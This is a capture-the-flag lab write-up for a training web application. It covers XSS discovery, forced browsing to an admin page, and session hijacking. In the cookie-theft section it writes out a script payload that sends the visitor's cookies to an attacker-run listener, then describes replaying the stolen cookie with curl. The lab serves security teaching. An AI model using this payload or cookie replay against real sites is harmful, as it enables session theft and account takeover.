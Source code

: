 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/53da4c88-831c-44b2-9c21-4b9dd8284073)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/87c7fd9d-fc96-4990-88aa-c63c96e4a939)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/db72d66c-e486-42c8-aedb-cd9ef4e9e16d)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the admin page output. Scroll down to see the flag. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/374ca600-ede7-44a5-8a2e-c04462682c60)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
